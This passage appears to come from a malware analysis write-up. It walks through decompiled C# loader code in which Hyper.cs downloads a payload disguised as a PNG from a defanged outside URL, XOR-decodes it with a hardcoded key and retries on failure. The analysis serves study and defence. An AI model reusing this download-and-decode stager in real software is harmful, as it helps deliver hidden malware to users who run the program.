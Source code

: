The function branches off into four additional functions. If these functions return an exception for some reason, the adversary code "swallows" the error and closes Form1 to end the program execution. 

The first branching function is `Trial()`, which branches into an additional class named `Hyper.cs`.

```cs
private void Trial()
{
    ((Control)richTextBox1).set_Text("Gdbtshcw.Sdnceyzqa Vqyhbeqthicxedwtrnxrbzcq");
    ((Control)richTextBox1).set_Tag((object)Hyper.Array());
}
```
{: file='Form1.cs'}

The `set_Text()` portion sets some randomized string to the text property of the RichTextBox in the form. It also sets a "tag" for the text box control to the output of `Hyper.Array()`. So let's take a look at `Hyper.cs`.

```cs
internal class Hyper
{
    private static byte[] GetBuffer()
    {
        return Avrql("hxxp://savory.com[.]bd/sav/Ztvfo.png");
    }

    private static byte[] Avrql(string url)
    {
        WebResponse response = ((WebRequest)(HttpWebRequest)WebRequest.Create(url)).GetResponse();
        MemoryStream memoryStream = new MemoryStream();
        response.GetResponseStream().CopyTo(memoryStream);
        return memoryStream.ToArray();
    }

    internal static byte[] Array()
    {
        for (int i = 0; i < 10; i++)
        {
            try
            {
                byte[] buffer = GetBuffer();
                byte[] bytes = Encoding.UTF8.GetBytes("Sfhdjkpkowgnpcgoshb");
                List<byte> list = new List<byte>();
                for (int j = 0; j < buffer.Length; j++)
                {
                    list.Add((byte)(bytes[j % bytes.Length] ^ buffer[j]));
                }
                return list.ToArray();
            }
            catch
            {
                Thread.Sleep(TimeSpan.FromSeconds(10.0));
            }
        }
        return null;
    }
}
```
{: file='Hyper.cs'}
